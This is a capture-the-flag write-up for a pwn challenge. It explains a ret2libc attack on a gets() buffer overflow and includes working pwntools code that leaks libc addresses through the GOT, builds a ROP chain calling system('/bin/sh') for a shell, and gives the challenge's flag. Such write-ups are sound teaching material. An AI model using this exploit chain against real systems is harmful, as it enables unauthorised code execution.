







# 🏴 Jailbreak - 2

> **Category:** Pwn
>
> **Points:** 20 pts
>
> **Author:** Sebastian
>
> **Description:** This time, you can't run any special commands in my jail. Can you still find a way to break out?

---

## Purpose

The purpose of this challenge was to use a ret2libc exploit to call system() from libc with '/bin/sh' in order to get a shell on the remote server. The run_command function was overwritten and its only real purpose was to allow you to use the system() function to be able to leak its address in the got table in order to have the corresponding addresses to find the libc version and perform the ret2libc attack.

## Exploitation

In this challenge, if you download the C file that was provided, the binary is the same as Jailbreak part 1 except for the fact that the run_command function only runs the "whoami" command, and there is an additional option in the list of options to "smash the stack". This option calls the vuln() function which uses the vulnerable gets() libc function which creates a buffer overflow vulnerability.

```C
void vuln() {
    char buffer[64];
    printf("📥 Enter your payload: ");
    gets(buffer);
    puts(buffer);
    printf("🎉 Printed your input! Try again? 😈\n");
}

void run_command() {
    printf("✅ This time, I can't let you run whatever you want. 😄😄😄😄\nI can tell you my name though. Here's my name:\n");
    system("whoami");
}
```

In order to solve this challenge, you have to use the ret2libc exploit which involves using ROP (return oriented programming) in order to call the system("/bin/sh") function from libc.

I highly recommend reading this if you aren't familiar with how the ret2libc works. This writeup author is great:

[Hackthebox Shooting Star Writeup](https://7rocky.github.io/en/ctf/htb-challenges/pwn/shooting-star/)

basically how ROP works is that instead of returning to a function, or an executable area in memory to execute shellcode, you can return to special areas in memory that have "ret" assembly instructions. These instructions typically will perform an operation that is beneficial to your goal of getting a shell, then they will return, and the next instruction on the stack will be popped off, and the function will redirect execution to that address. If this new address also holds a "ret" gadget, then the cycle continues, until you redirect back to the address of a function in the binary, or in this case, you redirect to the libc system() function and get a shell.

One of the first steps in solving this is to find out which rop gadgets are useful to solve this. If we use the ROPGadget command in linux, we can see some of the gadgets that we can redirect function execution to, then return. 



The useful one here is the "pop rdi; ret" gadget. This gadget is useful because inside of our binary, we use the puts() libc function. puts() prints the data stored inside of an address out to stdout. Before calling puts though, you need to load the address into the rdi register, because the rdi is the register that holds the first function argument that gets passed through. Therefore, we can use puts() to print out the value of any address we want in the binary.

**ASLR and PIE**

The reason why we need to leak function addresses in this binary is because of ASLR. ASLR is something that randomizes the most significant bits of the starting base address of libc, and the 12 least significant bits on a 64 bit executable are not randomized. Here is the memory map for one run of the binary, and if you run it again, you will see that these addresses change, but the base will always end in 000:



ASLR is a security feature used in binaries to prevent the kind of attack we are performing right now, and in order to bypass this, we have to find the base address of the libc to help us perform a ret2libc. We will do this by using puts() along with the "pop rdi; ret" assembly instruction.



PIE is another security protection similar to ASLR, but it isn't enabled in this binary. PIE stands for Position Independent Executable, and it randomizes the base address of the functions in our binary. Since these aren't randomized, we don't have to worry about leaking a base address to where our binary is loaded.

**Note: The base addresses of libc and the elf binary change, but the offsets are always the same (Base address of binary doesn't change if PIE is disabled)**

In order to leak addresses of libc, the functions that we are trying to leak have to be called first. When a function is called from the libc external library, the address of the function is loaded into the got table. There are some other special tricks to get a vulnerable binary to link a specific libc function to a different one when that function hasn't been called yet, but that is a very complex exploit and needs lots of pre-conditions to be met. This is called ret2dlresolve. Here is a link to a writeup that abuses that:

[ret2dlresolve](https://7rocky.github.io/en/ctf/htb-challenges/pwn/void/)

Instead, when we call the system function, the GOT (Global Offset Table) will load the address of that function into its table, and now we can leak it.

Here is what the got table looks like before the run_command function:



Here is what it looks like afterwards:



You can see that system points to 0x40400 before running the "run_command" function (by typing 2 into the option menu), but afterwards it points to a 0x7fb42f81. Once we do this, all we have to do is call puts from the elf plt, and pass the location of the got table for a specific function, and it will leak that value in the got table. That tells us where the address for that libc is in the binary after ASLR.

**Finding the correct libc version**

There are multiple versions of external C libraries, and in order to solve this challenge, we have to find the correct libc version because the offsets of libc functions from the base of libc always stay constant when running on the same version, but they change when the version of libc changes.

What you have to do is leak at least 3 libc functions, and put the last 3 digits of those libc functions into [this website](http://libc.rip/). Afterwards, you get a list of possible libc versions that the binary is using, and you can narrow it down from there. For example, If I run my solve script, I leak these addresses from the remote binary:



I can enter the last 3 hex characters into the website, because these aren't affected by ASLR.

If you download the first one off of the top, then the exploit should work. You know that most likely you have the correct libc version if after leaking the libc address, you have an address that ends in 000.


**Explaining the solve script**

The pwntools libary in python make the process of solving this challenge much easier. In our script, we have a function for connecting to the remote instance or local binary:

```py
def get_process():
    if len(sys.argv) == 1:
        return context.binary.process()
    elif len(sys.argv) == 2:
        addr, port = sys.argv[1].split(":")

        port = int(port)

        return remote(addr, port)

def main():
    p = get_process()

    ...
```

Then we call the run_command function to put the system address in the got table:

```py
    p.sendlineafter(b'(1, 2, or 3): ', b'2')
```

Then we have the code that leaks gets(), puts(), setbuf(), and system() from libc:

```py

    p.sendlineafter(b'(1, 2, or 3): ', b'1')

    system_address = leak(p, 'system')

    log.info(f"Leaked system address: {hex(system_address)}")

    puts_address = leak(p, 'puts')

    log.info(f"Leaked puts address: {hex(puts_address)}")

    gets_address = leak(p, 'gets')

    log.info(f"Leaked gets address: {hex(gets_address)}")

    setbuf_address = leak(p, 'setbuf')

    log.info(f"Leaked setbuf address: {hex(setbuf_address)}")
```

This is what the leak function looks like:

```py
def leak(p, function):

    payload = b'A' * 72

    payload += p64(rop.rdi[0])

    payload += p64(elf.got[function])

    payload += p64(elf.plt.puts)

    payload += p64(elf.sym.vuln)

    p.sendlineafter(b'payload: ', payload)

    p.recvline()
    p.recvline()
    
    address = u64(p.recvline().strip().ljust(8, b'\x00'))

    return address
```

How this works is:

1. Fill up buffer with 72 garbage bytes to overwrite everything up until rip. Find this offset using the trick shown in the Buffer Overflow writeup
2. using pwntools rop to find all of the rop gadgets. Then rop.rdi[0] will take the first "pop rdi; ret" gadget, and it will return the address of that. So this puts a "pop rdi; ret" on the stack.
3. elf.got[function] is used to put the value of the got table for a specific address into rdi. The pop rdi pops the top of the stack which is the function address inside of the got.
4. The puts function is then called with rdi as the address in the got table.
5. The rop ends with the vulnerable function being called once again to repeat the cycle over again.

After we leak the function addresses, we can get the libc base by subtracting the system offset from the libc leaked system address:

```py

libc.address = system_address - libc.sym.system

```

Lastly after finding the libc base address, all we have to do is call system("/bin/sh"). This is done inside of the get_shell() function:

```py
def get_shell(p):

    payload = b'A' * 72

    payload += p64(rop.ret[0])

    payload += p64(rop.rdi[0])

    payload += p64(next(libc.search(b'/bin/sh')))

    payload += p64(libc.sym.system)

    p.sendlineafter(b'payload: ', payload)
```

One weird thing that happens in binaries is that sometimes you run into stack alignment issues. This typically occurs when your payload offset from the stack isn't divisible by 16 bytes. To fix this, you typically use a ret gadget that just calls "ret" in the binary, so it basically does nothing except pop 8 bytes off of the stack. This is what the rop.ret[0] instruction does in this function.

Other than that,  you have to do another "pop rdi; ret" call, and enter an address in the binary where '/bin/sh' is located, then the system function from libc is called with rdi as an address that has /bin/sh in it. This will spawn a shell.


## Solution



flag: ```WSUCTF{4ll_I_need_is_the_syst3m_address}```